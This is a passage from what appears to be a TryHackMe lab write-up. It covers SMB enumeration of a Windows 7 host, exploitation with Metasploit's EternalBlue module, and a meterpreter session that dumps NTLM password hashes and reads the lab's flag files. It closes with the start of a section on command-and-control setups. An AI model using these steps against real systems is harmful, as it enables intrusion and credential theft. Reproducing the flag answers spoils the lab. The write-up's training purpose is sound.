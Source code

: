 ```
|   Check 4 (port 49358/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 7 Home Basic 7600 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: Teds-PC
|   NetBIOS computer name: TEDS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-12T13:59:20-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2025-05-12T17:59:20
|_  start_date: 2025-05-12T17:57:49
```


As seen, we are dealing with an old version of windows: `Windows 7 Home Basic 7600`, we can use `eternalblue` exploit in `metasploit` to get a shell as `nt authority/system:


![](../images/Pasted%20image%2020250512130804.png)

We need to run it a couple times for it to work, we now got a shell:



```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d108721c5626a6a054d6e0943c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867e5664425c1309a5c:::


meterpreter > cat C:/Users/Administrator/Desktop/root.txt
THM{bd6ea6c871dced619876321081132744}


meterpreter > cat C:/Users/Ted/Desktop/user.txt
THM{217fa45e35f8353ffd04cfc0be28e760}
```


# Advanced C2 Setups
---

### There's Always Room for Improvement

As you may have guessed, Metasploit itself is not that great of a C2 server for advanced adversary operations. It's not as flexible as one would desire; you cannot configure agents to beacon out every X seconds with Y jitter. A Next-Generation Firewall could quickly pick up on this C2 traffic, seeing it's a constant stream of traffic. In addition, anyone could connect to an HTTP/HTTPS listener and find out relatively quickly what is going on.
